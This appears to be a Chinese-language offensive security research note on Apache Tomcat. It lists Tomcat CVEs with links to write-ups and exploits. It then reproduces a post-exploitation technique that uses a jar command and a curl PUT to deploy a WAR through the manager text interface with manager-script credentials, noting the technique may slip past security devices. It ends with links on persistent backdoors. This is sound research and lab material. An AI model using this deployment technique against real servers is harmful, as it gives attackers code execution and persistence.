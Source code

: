 前置基础
---


相关漏洞
---
### CVE-2021-33037 HTTP Request Smuggling

- https://xz.aliyun.com/t/9866

### CVE-2020-9484  Session Deserialization -> RCE

- https://mp.weixin.qq.com/s/r8Mk1TYJqFIxDk8SkWorrg

### CVE-2020-13935 WebSocket DoS

- https://xz.aliyun.com/t/8550


### CVE-2020-1938  AJP  File Read/Inclusion -> RCE

- https://www.anquanke.com/post/id/199448
- https://xz.aliyun.com/t/7325

### CVE-2019-0232  CGI Servlet RCE

- https://paper.seebug.org/958/

### CVE-2019-0221 XSS

- https://www.exploit-db.com/exploits/50119


### CVE-2018-11784 Open Redirect

- https://www.exploit-db.com/exploits/50118

### CVE-2017-12617 HTTP PUT -> RCE(12615 bypass)

- https://www.exploit-db.com/exploits/43008

### CVE-2017-12615 HTTP PUT -> RCE

- https://xz.aliyun.com/t/5610

利用研究
---

### Text Interface + WAR -> Post-RCE


**前言**

> Tomcat的一种鸡肋利用，需要获取`manager-script roles`角色用户的凭证。

  翻tomcat文档考古 -> `Deploy A New Application Archive (WAR) Remotely`

- https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL

![image](https://user-images.githubusercontent.com/55024146/177111478-ef51df0a-0a65-412b-8f75-85fbfce82d55.png)

重点：This command is executed by an HTTP `PUT` request.  也许可能大概可以用来绕安全设备??? 


**复现步骤**

0）测试环境
- apache-tomcat-8.5.55
- conf/tomcat-user.xml
  ```xml
  <?xml version='1.0' encoding='utf-8'?>
  <tomcat-users>
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
  </tomcat-users>
  ```

1）制作WAR包
```
jar -cvf demo.war *
```

2）上传并部署WAR包
```
curl -u "tomcat:tomcat" -X PUT -T "demo.war" "http://10.10.10.1:8080/manager/text/deploy?path=/demo" --proxy "127.0.0.1:9090"
```

3）测试效果

![image](https://user-images.githubusercontent.com/55024146/177114675-61d9ecb3-c279-4b77-9d1d-26c083272c19.png)


PS: 测完发现@indishell1046在18年就在提出了这种[姿势](https://twitter.com/indishell1046/status/978704150014844928)，security "re-searcher"再一次在自己这儿实锤🤦‍♂️. 


### URL解析差异

### 回显

### 内存马

### 中间件持久化后门

- https://gv7.me/articles/2021/an-idea-of-keeping-persistent-backdoor-in-tomcat-middleware/
- https://xz.aliyun.com/t/10582
- https://xz.aliyun.com/t/10577
